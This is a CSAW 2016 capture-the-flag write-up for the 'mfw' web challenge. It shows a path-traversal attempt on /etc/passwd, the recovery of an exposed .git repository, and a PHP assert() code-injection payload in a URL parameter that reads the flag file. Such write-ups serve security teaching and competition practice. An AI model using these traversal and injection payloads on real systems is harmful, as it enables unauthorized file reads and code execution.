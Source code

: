 ```yaml
---
title: '[CSAW 2016] mfw Writeup'
author: Megabeets
type: post
date: 2016-09-18T22:02:18+00:00
url: /csaw-2016-mfw-writeup/
categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - Web

---
```

#### **Description:**

> Hey, I made my first website today. It&#8217;s pretty cool and web7.9.  
> <http://web.chal.csaw.io:8000/>

&nbsp;

Entering the site, the first thing that comes to mind is a LFI attack. The site is including a page which is requested in the URL.

The following table describes the possible respond pages:

<table style="width: 945px;">
  <tr>
    <td style="width: 418.869px;">
      <strong>URL</strong>
    </td>
    
    <td style="width: 484.131px;">
      <strong>Result</strong>
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=home
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;home&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=about
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;about&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=contact
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;contact&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=Megabeets
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;That file doesn&#8217;t exist!&#8221;
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=flag
    </td>
    
    <td style="width: 484.131px;">
      An empty page is shown <strong>inside </strong>the website.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=../../../../etc/passwd
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;Detected hacking attempt!&#8221;
    </td>
  </tr>
</table>

Looking at the source code i saw the following comment:

<pre class="lang:php decode:true">&lt;!--&lt;li &gt;&lt;a href="?page=flag"&gt;My secrets&lt;/a&gt;&lt;/li&gt; --&gt;</pre>

Ok, I need to get the &#8220;flag&#8221; page but any LFI technique I tried didn&#8217;t work. I thought about something else, In the &#8220;about&#8221; page the creator of the site mentioned that it was built using git. So let&#8217;s see if I am able to download the repository. The page http://web.chal.csaw.io:8000/.git/config exists so I downloaded the repository using <a href="https://github.com/kost/dvcs-ripper" target="_blank">DVCS-RIPPER</a>.

You can find index.php [here][1].

So the page is using assert() which is vulnerable to Command Injection attack. After a little trial and error I came up with the answer:

<pre class="lang:ps decode:true">(Invoke-WebRequest "http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment").Content</pre>

And received the flag:

<pre class="lang:php decode:true">string(52) "&lt;?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?&gt;
"
Detected hacking attempt!</pre>

If you try entering [the url][2] in a browser, look in the source of the page (CTRL+U), the flag is commented.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://gist.github.com/ITAYC0HEN/20edf000082b0765b493fb893cec96de
 [2]: http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment the rest of the line